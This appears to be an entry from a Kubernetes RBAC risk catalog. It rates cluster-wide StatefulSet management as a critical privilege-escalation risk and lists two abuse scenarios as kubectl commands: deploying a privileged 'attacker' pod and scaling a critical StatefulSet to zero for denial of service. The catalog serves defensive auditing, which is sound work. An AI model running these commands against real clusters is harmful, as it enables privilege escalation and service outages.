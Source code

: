 ```yaml
---
id: 1037
title: "Manage StatefulSets cluster-wide"
description: "Grants permission to create, update, or delete StatefulSets across all namespaces. Similar to Deployments, this can be used to deploy pods (often stateful applications) with privileged configurations, leading to privilege escalation, persistence, and tampering."
category: Elevation of Privilege
risk_level: RiskLevelCritical
date: ""
---
```


## Overview

| Field         | Value                                                                                                               |
| ------------- | ------------------------------------------------------------------------------------------------------------------- |
| ID            | 1037                                                                                                                |
| Name          | Manage StatefulSets cluster-wide                                                                                    |
| Risk Category | Elevation of Privilege                                                                                              |
| Risk Level    | {{< risk Critical >}}                                                                                               |
| Role Type     | ClusterRole                                                                                                         |
| API Groups    | apps                                                                                                                |
| Resources     | statefulsets                                                                                                        |
| Verbs         | create, update, patch, delete                                                                                       |
| Tags          | {{< tag "Persistence" >}} {{< tag "PrivilegeEscalation" >}} {{< tag "Tampering" >}} {{< tag "WorkloadLifecycle" >}} |

## Description

Grants permission to create, update, or delete StatefulSets across all namespaces. Similar to Deployments, this can be used to deploy pods (often stateful applications) with privileged configurations, leading to privilege escalation, persistence, and tampering.

## Abuse Scenarios

1. Create a new StatefulSet with a privileged pod template.

```bash
kubectl create -n <namespace> -f - <<EOF
apiVersion: apps/v1
kind: StatefulSet
metadata:
  name: privileged-statefulset
spec:
  serviceName: "privileged-service"
  replicas: 1
  selector:
    matchLabels:
      app: privileged-sts
  template:
    metadata:
      labels:
        app: privileged-sts
    spec:
      containers:
      - name: attacker
        image: busybox
        command: ["/bin/sh", "-c", "sleep infinity"]
        securityContext:
          privileged: true
EOF
# Example: kubectl create -n default -f - <<EOF ... EOF

```

2. Scale a critical StatefulSet to zero replicas, causing data inconsistency or DoS.

```bash
kubectl scale statefulset <statefulset-name> -n <namespace> --replicas=0
# Example: kubectl scale statefulset my-database -n production --replicas=0

```
